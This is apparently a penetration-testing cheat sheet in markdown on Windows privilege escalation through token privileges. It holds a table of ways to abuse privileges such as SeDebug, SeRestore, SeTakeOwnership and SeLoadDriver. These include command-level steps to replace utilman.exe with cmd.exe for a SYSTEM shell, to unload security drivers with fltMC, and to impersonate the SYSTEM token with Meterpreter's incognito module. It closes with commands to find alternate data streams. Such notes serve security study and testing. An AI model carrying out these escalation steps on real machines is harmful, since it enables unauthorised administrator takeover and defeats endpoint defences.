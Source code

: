 ### What are Tokens
![[Pasted image 20210715170212.png]]

##### When in a command shell type this to see all the privileges the user have
```powershell
whoami /priv
```

##### In a meterpreter shell type this to see all the privileges the user have
```powershell
getprivs
```

###  Impersonation Privileges

Full privileges cheatsheet at https://github.com/gtworek/Priv2Admin, summary below will only list direct ways to exploit the privilege to obtain an admin session or read sensitive files.

| Privilege | Impact | Tool | Execution path | Remarks |
| --- | --- | --- | --- | --- |
|`SeAssignPrimaryToken`| ***Admin*** | 3rd party tool | *"It would allow a user to impersonate tokens and privesc to nt system using tools such as potato.exe, rottenpotato.exe and juicypotato.exe"* | Thank you [Aurélien Chalot](https://twitter.com/Defte_) for the update. I will try to re-phrase it to something more recipe-like soon. |
|`SeBackup`| **Threat** | ***Built-in commands*** | Read sensitve files with `robocopy /b` |- May be more interesting if you can read %WINDIR%\MEMORY.DMP<br> <br>- `SeBackupPrivilege` (and robocopy) is not helpful when it comes to open files.<br> <br>- Robocopy requires both SeBackup and SeRestore to work with /b parameter. |
|`SeCreateToken`| ***Admin*** | 3rd party tool | Create arbitrary token including local admin rights with `NtCreateToken`. ||
|`SeDebug`| ***Admin*** | **PowerShell** | Duplicate the `lsass.exe` token.  | Script to be found at [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1) |
|`SeLoadDriver`| ***Admin*** | 3rd party tool | 1. Load buggy kernel driver such as `szkg64.sys`<br>2. Exploit the driver vulnerability<br> <br> Alternatively, the privilege may be used to unload security-related drivers with `ftlMC` builtin command. i.e.: `fltMC sysmondrv` | 1. The `szkg64` vulnerability is listed as [CVE-2018-15732](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15732)<br>2. The `szkg64` [exploit code](https://www.greyhathacker.net/?p=1025) was created by [Parvez Anwar](https://twitter.com/parvezghh)  |
|`SeRestore`| ***Admin*** | **PowerShell** | 1. Launch PowerShell/ISE with the SeRestore privilege present.<br>2. Enable the privilege with [Enable-SeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)).<br>3. Rename utilman.exe to utilman.old<br>4. Rename cmd.exe to utilman.exe<br>5. Lock the console and press Win+U| Attack may be detected by some AV software.<br> <br>Alternative method relies on replacing service binaries stored in "Program Files" using the same privilege. |
|`SeTakeOwnership`| ***Admin*** | ***Built-in commands*** |1. `takeown.exe /f "%windir%\system32"`<br>2. `icalcs.exe "%windir%\system32" /grant "%username%":F`<br>3. Rename cmd.exe to utilman.exe<br>4. Lock the console and press Win+U| Attack may be detected by some AV software.<br> <br>Alternative method relies on replacing service binaries stored in "Program Files" using the same privilege. |
|`SeTcb`| ***Admin*** | 3rd party tool | Manipulate tokens to have local admin rights included. May require SeImpersonate.<br> <br>To be verified. ||

### Potato Attacks
**When first land into the shell , see what privileges you have and run a automated script like winpeas to detect the potato attack. **

->After getting a privilege meterpreter session type the following commads
```powershell
# load incognito module
load incognito

# List the tokens you have
list_token -u

# Impersonate "NT AUTHORITY\SYSTEM" token if you have that
impersonate_token "NT AUTHORITY\SYSTEM"

# Drop Into the command shell
shell

# Check the user you landed after impersonating
whoami
```
![[Pasted image 20210715173903.png]]

### Alternate Data Streams
Sometimes data can be hidden in alternate data streams
Alternate Data Streams (ADS) are a file attribute only found on the [NTFS file system](https://technet.microsoft.com/en-us/library/cc781134(v=ws.10).aspx).

In this system a file is built up from a couple of attributes, one of them is _$Data_, aka the data attribute. Looking at the regular data stream of a text file there is no mystery. It simply contains the text inside the text file. But that is only the primary data stream.

This one is sometimes referred to as the unnamed data stream since the name string of this attribute is empty ( “” ) . So any data stream that has a name is considered alternate.

These data streams suffer from a bad reputation since they have been used and abused to write hidden data. Varying from data about where a file came from to complete malware files (e.g. [Backdoor.Rustock.A](https://www.symantec.com/security_response/writeup.jsp?docid=2006-060111-5747-99&tabid=2))

If you are up for an experiment, we can easily create and read an alternate data stream.

##### Use the following command to see the alternate data streams
```powershell
dir /R
```

-> If you want to search a directory or drive for ADS you can use this command in the root of the target:
```powershell
gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'
```

### References
https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/
https://github.com/ohpe/juicy-potato
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
